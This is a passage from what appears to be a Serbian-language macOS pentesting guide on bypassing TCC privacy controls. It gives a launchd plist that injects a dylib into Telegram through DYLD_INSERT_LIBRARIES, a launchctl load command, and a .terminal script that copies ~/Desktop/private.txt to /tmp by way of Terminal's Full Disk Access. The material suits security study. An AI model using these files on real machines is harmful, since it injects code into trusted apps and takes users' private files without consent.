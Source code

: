 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>com.telegram.launcher</string>
<key>RunAtLoad</key>
<true/>
<key>EnvironmentVariables</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/tmp/telegram.dylib</string>
</dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
</dict>
</plist>
```

```bash
launchctl load com.telegram.launcher.plist
```

## Pomoću otvorenih poziva

Moguće je pozvati **`open`** čak i dok je sandbox aktiviran

### Terminalni skriptovi

Često je uobičajeno dati terminalu **Pristup punom disku (FDA)**, barem na računarima koje koriste tehničari. I moguće je pozvati skriptove **`.terminal`** koristeći ga.

**`.terminal`** skriptovi su plist fajlovi poput ovog sa komandom za izvršavanje u ključu **`CommandString`**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
<key>CommandString</key>
<string>cp ~/Desktop/private.txt /tmp/;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
```
